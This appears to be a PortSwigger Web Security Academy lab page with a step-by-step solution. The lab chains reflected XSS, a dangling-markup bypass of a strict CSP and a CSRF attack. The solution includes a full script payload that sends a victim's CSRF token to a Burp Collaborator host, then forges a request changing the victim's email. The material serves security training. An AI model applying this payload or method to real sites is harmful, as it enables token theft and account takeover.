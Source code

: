 # Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) protected by very strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy), with [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) attack

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

 ####  Solution

1. Log in to the lab using the account provided above.
2. Examine the change email function. Observe that there is an XSS vulnerability in the `email` parameter.
3. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
4. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
5. Back in the lab, go to the exploit server and add the following code, replacing `YOUR-LAB-ID` and `YOUR-EXPLOIT-SERVER-ID` with your lab ID and exploit server ID respectively, and replacing `YOUR-COLLABORATOR-ID` with the payload that you just copied from Burp Collaborator.
    
    `<script> if(window.name) { new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name); } else { location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27'; } </script>`
6. Click "Store" and then "Deliver exploit to victim". When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using Burp Collaborator.
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.
8. With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
9. In Burp, go to the intercepted request and change the value of the email parameter to `hacker@evil-user.net`.
10. Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
11. Click "Options" and make sure that the "Include auto-submit script" is activated.
12. Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
13. Drop the request and switch off the intercept feature.
14. Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
15. Click "Store" and "Deliver exploit to victim". The user's email will be changed to `hacker@evil-user.net`.
